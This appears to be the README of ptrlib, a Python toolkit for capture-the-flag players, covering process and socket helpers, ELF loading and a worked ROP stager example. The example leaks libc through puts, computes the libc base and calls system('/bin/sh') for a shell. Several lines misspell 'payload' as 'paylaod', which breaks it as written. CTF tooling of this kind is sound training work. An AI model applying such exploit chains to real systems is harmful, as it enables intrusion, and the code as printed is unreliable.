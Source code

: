 ptrlib
====

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirement
Supports: Python 3.x
Library Dependency: pycryptodome

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
got_puts = elf.got("puts")
plt_puts = elf.plt("puts")
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64(rop_pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(rop_pop_rdi)
payload += p64(stage2)
payload += p64(plt_gets)
paylaod += p64(rop_pop_rbp)
paylaod += p64(stage2)
payload += p64(rop_leave_ret)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)
